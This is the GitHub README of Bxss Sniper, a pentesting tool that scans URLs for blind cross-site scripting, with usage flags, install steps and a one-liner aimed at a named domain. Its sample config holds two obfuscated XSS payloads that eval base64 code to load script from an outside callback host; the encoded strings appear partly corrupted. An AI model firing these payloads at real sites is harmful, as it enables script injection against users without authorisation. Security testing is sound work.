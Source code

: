 # Bxss Sniper

Bxss Sniper is a web application penetration testing tool designed for Blind Cross-Site Scripting (BXSS) detection. This ethical hacking tool empowers security professionals and developers to identify and analyze potential BXSS vulnerabilities in web applications.

### Features

- **Blind XSS Detection:** Bxss Sniper specializes in detecting and testing for Blind Cross-Site Scripting vulnerabilities in web applications.

- **Flexible Testing Options:** Test a single URL or multiple URLs using a file containing a list of targets.

- **Silent Mode:** Enable silent mode to print only the output without displaying the banner and version information.

- **Output Customization:** Specify an output file to save the results for further analysis.

- **Proxy Support:** Switching proxies allows you to send requests through your configured proxy, such as Burp Suite.

- **Timeout Configuration:** Customize the timeout duration for requests, useful for both regular testing and integration with tools like Burp Suite.

- **Concurrency Control:** Adjust the concurrency level for multiple processes, enhancing the efficiency of the testing process.

- **Support Oneliners:** Bxss Sniper supports oneliners to improve your reconnaissance

### Oneliners:

Bxx Sniper supports integration with subdominator which can be easy to detect for blid cross site scripting.

```bash
subdominator -d glia.com -o results.txt --config | bxsniper --silent --concurrency 20 -o bxss.txt
```
![Screenshot from 2023-12-02 17-14-34](https://github.com/sanjai-AK47/Bxss_Sniper/assets/119435129/cbb8797f-7cb9-4e2d-aa6b-ba7d1db18748)



### Command Line Usage
```bash
usage: bxsniper [-h] [-uf URLS_FILE] [-u URL] [-s] [-o OUTPUT] [-px PROXY] [-to TIME_OUT] [-c CONCURRENCY]

[DESCRIPTION]: Bxss Sniper: A web application penetration testing tool for Blind XSS detection

options:
  -h, --help            show this help message and exit
  -uf URLS_FILE, --urls-file URLS_FILE
                        [INFO]: A file that contains a list of URLs to test for blind cross-site scripting
  -u URL, --url URL     [INFO]: A single URL to test for blind cross-site scripting
  -s, --silent          [INFO]: Silently print only output and not print the banner and version
  -o OUTPUT, --output OUTPUT
                        [INFO]: Filename to write the output
  -px PROXY, --proxy PROXY
                        [INFO]: Switching proxy will send requests to your configured proxy (e.g., Burp Suite)
  -to TIME_OUT, --time-out TIME_OUT
                        [INFO]: Switching timeout will send requests till your timeout and also for Burp Suite
  -c CONCURRENCY, --concurrency CONCURRENCY
                        [INFO]: Concurrency level for multiple processes
```


### Installation:

#### Method 1:

```bash
pip install bxss-sniper

bxsniper --help
```
[INFO]: After Installing the Bxss Sniper tool through pip copy the configuration yaml file from the github if you don't have in your machine.

#### Method 2:

```bash
git clone https://github.com/PushkraJ99/Bxss-Sniper.git
cd Bxss-Sniper
pip install . --break-system-packages
bxsniper --help
```

### Configuration:

To detect and do automation with Bxss Sniper users need to configure your `bxss-config.yaml` which you can store your Bxss payloads and Detects for Blind Cross Site Scripting
follow the instruction and syntax to config you `bxss-config.yaml`

```yaml
BlindXSS-Payloads:  #Max Payload 5-7

  - '"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3Jgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vamVycnkuYnhzm9keS5hcHBlbmRDaGlsZChhKTs&#61;&#61 onerror=eval(atob(this.id))>'
  - "'><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS57ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61;&#61 onerror=eval(atob(this.id))>"
```

[Note]: If your payload have different quotes users are suggessted to give payloads without any yaml syntax errors
        to check your yaml syntax you can check [here](https://yamlchecker.com/) by pasting your payload in that it will notify the errors for you

### Contributors:

- **[D.Sanjai Kumar](https://www.linkedin.com/in/d-sanjai-kumar-109a7227b/):**  Author and Developer of Bxss Sniper
- **[Jerry](https://www.linkedin.com/in/md-hasan-03596a1b5/):**  Source Provider of Bxss Sniper
- **[AslamX3R](https://www.linkedin.com/in/aslamx3r/):**  Source Provider of Bxss Sniper

### Information:

Bxss Sniper is made for web application pentesters and Ethical hackers for Ethical purpose only . The Developer and the Source providers are not responsible for 
any unethical actions.

### Support:

Bxss Sniper is an open-source project that thrives on community collaboration. Contribute by:

- **Code:** Submit pull requests for bug fixes, features, or documentation enhancements.

- **Issues:** Report bugs, vulnerabilities, or suggest improvements.

- **Spread the Word:** Share Bxss Sniper with your network.

### How to Support:

- **Star the Repo:** Show your support on GitHub.

- **Share:** Spread the word on social media and in your communities.

- **Financially:** Help cover hosting and maintenance costs with a financial contribution.

Your contributions and support are vital to Bxss Sniper's success. Thank you for being part of our community! 🌟

